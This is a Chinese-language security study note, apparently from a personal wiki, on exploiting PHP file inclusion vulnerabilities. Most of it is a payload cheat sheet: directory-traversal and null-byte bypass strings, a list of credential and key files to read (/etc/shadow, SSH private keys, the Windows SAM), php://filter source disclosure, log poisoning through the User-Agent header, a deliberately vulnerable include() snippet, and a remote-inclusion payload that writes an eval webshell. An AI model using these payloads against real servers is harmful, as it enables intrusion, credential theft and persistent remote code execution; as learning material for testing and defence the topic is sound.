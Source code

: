 # 挖掘文件包含漏洞
`include()`：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
`require()`：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
`include_once()和require_once()`：若文件中代码已被包含则不会再次包含
考虑常用的几种包含方式为:
同目录包含 `file=.htaccess`
目录遍历 `?file=../../../../../../../../../var/lib/locate.db`
日志注入 `?file=../../../../../../../../../var/log/apache/error.log`
利用 `/proc/self/environ`
# 漏洞分类
**本地文件包含**
可以包含本地文件，在条件允许时甚至能执行代码
上传[[WebShell|图片马]]，然后包含
读敏感文件，读PHP文件
包含日志文件[[WebShell#GetShell|GetShell]]
包含`/proc/self/envion文件GetShell`
包含`data:或php://input`等伪协议
若有`phpinfo`则可以包含临时文件
**远程文件包含**
可以直接执行任意代码
*要保证php.ini中allow_url_fopen和allow_url_include要为On*
*日志文件一般没有读取权限，而php有时会将日志文件放在/home/log里*



# 文件包含漏洞利用
## 利用方法
参数，各种参数要探测
截断，可能会添加一些文件后缀，使用%00，././././截断
程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
用户能够控制该动态变量
## 本地文件包含
**本地文件包含漏洞流程**
保存为 include.php
`<?php `
`$test=$_GET['c'];`
`include($test);?> `
在同一个目录下创建test.txt 内容为 ` <?php phpinfo() ?>`
访问测试  `//http://127.0.0.1/test/include.php?c=test.txt `   访问连接，将123.txt传送给c并赋给test变量
**本地包含漏洞注意事项**
相对路径：`../../../etc/passwd`
%00截断包含(PHP<5.3.4)，`magic_quotes_gps=off `才可以，否则%00会被转义
**防御绕过**
(php版本小于5.2.8(?)可以成功
`?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.`
(php版本小于5.2.8(?)可以成功，只适用windows
`?file=../../../../../../../../../boot.ini/………[…]…………`
dvwa中级难度的包含，这个主要是过滤了远程文件包含和我们目录的跳转，大小写混合输入就可以绕过远程文件包含的过滤
目录跳转的过滤我们可以构造`….//….//xxx.php`，方式绕过，由于他只过滤一次，我们可以利用他的过滤动态拼接目录跳转，从而绕过过滤
## 本地文件包含漏洞利用
**读敏感文件** ^14c3e4
Windows：
`C:\boot.ini`  查看系统版本
`C:\Windows\System32\inetsrv\MetaBase.xml`  IIS配置文件
`C:\Windows\repair\sam`  存储系统初次安装的密码
`C:\Program Files\mysql\my.ini`  Mysql配置
`C:\Program Files\mysql\data\mysql\user.MYD`  Mysql root
`C:\Windows\php.ini`  php配置信息
`C:\Windows\my.ini`  Mysql配置信息
Linux：
`/root/.ssh/authorized_keys`
`/root/.ssh/id_rsa`
`/root/.ssh/id_ras.keystore`
`/root/.ssh/known_hosts`
`/etc/passwd`
`/etc/shadow`
`/etc/my.cnf`
`/etc/httpd/conf/httpd.conf`
`/root/.bash_history`
`/root/.mysql_history`
`/proc/self/fd/fd[0-9]*(文件标识符)`
`/proc/mounts`
`/porc/config.gz`
**包含日志(主要是得到日志的路径)**
读日志路径：
默认位置`/var/log/httpd/access_log`
文件包含漏洞读取apache配置文件：
`index.php?page=/etc/init.d/httpd`
`index.php?page=/etc/httpd/conf/httpd.conf`
日志会记录客户端请求及服务器响应的信息，访问`http://www.xx.com/<?php phpinfo(); ?>`时，`<?php phpinfo(); ?>`也会被记录在日志里，也可以插入到User-Agent
**读PHP文件**
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取
`?page=php://filter/read=convert.base64-encode/resource=config.php`  访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
**log投毒**
工作原理是修改我们发送给web应用程序的数据，使日志包含可执行代码。
首先是否可以访问log文件，其次看其中含有http header中的哪一项，例如useragent
尝试将shellcode注入到useragent中
使用LFI访问log文件
## 远程文件包含
远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
若在a.txt写入`<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[xxx]); ?>") ?>`，可直接写shell




